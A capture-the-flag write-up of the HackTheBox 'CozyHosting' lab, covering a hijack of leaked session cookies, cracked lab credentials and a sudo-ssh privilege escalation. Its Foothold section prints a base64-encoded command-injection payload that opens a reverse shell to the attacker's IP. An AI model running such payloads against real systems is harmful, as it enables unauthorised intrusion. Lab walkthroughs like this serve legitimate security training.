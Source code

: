 # CozyHosting (Easy)

![image](https://github.com/JefJacobs00/writeups/assets/43653885/0e4dc31a-ab63-448c-b7bf-6eafc355715d)

## Recon
### Nmap portscan

![image](https://github.com/JefJacobs00/writeups/assets/43653885/3ad04db2-ff2f-46d5-8e71-67a838d5c909)

The box has an open http and ssh service. We see that the http service redirects to "cozyhosting.htb". To access the site we need to add this to the /etc/hosts file with the corresponding ipaddress.

### Webserivce recon

The next step is to search trough the webapplication for vulnerabilities. We can use gobuster to search for available endpoints during the gobuster scan we can also checkout the site itself.

Gobuster finds a login and admin page. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/9b84ff13-ac35-4115-b9af-08c11655a442)

We also run a bigger search with dirsearch:

![image](https://github.com/JefJacobs00/writeups/assets/43653885/0502985e-c94b-4529-a13f-6ae50a77e6b5)

When we try to access the admin page we get a 401 (unathorised) and we get redirected to the login page. We try if SQLmap can get us somewhere on this page. This takes a while so we wait lets checkout if [hacktrics](https://book.hacktricks.xyz/pentesting-web/login-bypass) has any tips on how to get past the login page. hacktricks mentions to check if there is a remember me option. This is the case, this might allow us to use a session of a different user with access. From the dirsearch scan we found the page /actuator/sessions this page gives a couple of session ids: 

{
"E1A5A3A6778ADB55DBFA378AD0AB7354":"UNAUTHORIZED",
"8BE8064ACAC4926BE4FEB88BB5AE51DA":"kanderson",
"6113EB51B6B91DCC48C32B5011FE3B99":"UNAUTHORIZED",
"216136184FF0A10378CB091EE802718A":"kanderson",
"C9CCE6A596277216FD58C694BAAE212B":"UNAUTHORIZED"
}

two of these are not UNauthorized and belong to kanderson: 

216136184FF0A10378CB091EE802718A
8BE8064ACAC4926BE4FEB88BB5AE51DA

By changing the cookie we get access to a admin dashboard

![image](https://github.com/JefJacobs00/writeups/assets/43653885/a6313337-ef37-4f02-8702-ef2699af66e3)


## Foothold

At the bottom of the admin dashbord there is a box that allowes us to connect using ssh. However this does not get us get onto the box. In burpsuite we use the payload `{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNTEvOTAwMSAwPiYx}|{base64,-d}|bash|` to get a reverse shell. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/8d9dc9e3-1aba-4834-8f76-dd9d4f5f814e)

We see that there is a user josh and a user prostgress that has access to the box. In the home folder we find a jar file that we download onto our machine and unzip. In the application.properties file we find the db credentials with user postgres and the password Vg&nvzAQ7XxR. 

![image](https://github.com/JefJacobs00/writeups/assets/43653885/8b5c8d0f-40c1-46cd-b2ee-86ac90fd4081)

We put these hashes into john to find the cleartext. From here we find that the admin has the password manchesterunited.

![image](https://github.com/JefJacobs00/writeups/assets/43653885/c789d395-e323-49a4-a058-a045666c988f)

We try to log onto the site using these credentials, this gives an error on the admin page. So we attemt to ssh josh@cozyhosting.htb with the password, this gives us the foothold!

## PE

For priv esc we check the sudo rights for the user, here we find that josh can use ssh with sudo. We look up if [gtfo bins](https://gtfobins.github.io/gtfobins/ssh/) has any tricks for this and they do. We copy paste the payload and get root access!

![image](https://github.com/JefJacobs00/writeups/assets/43653885/22801ab9-ec5d-45ab-96cc-13c52027a1ae)













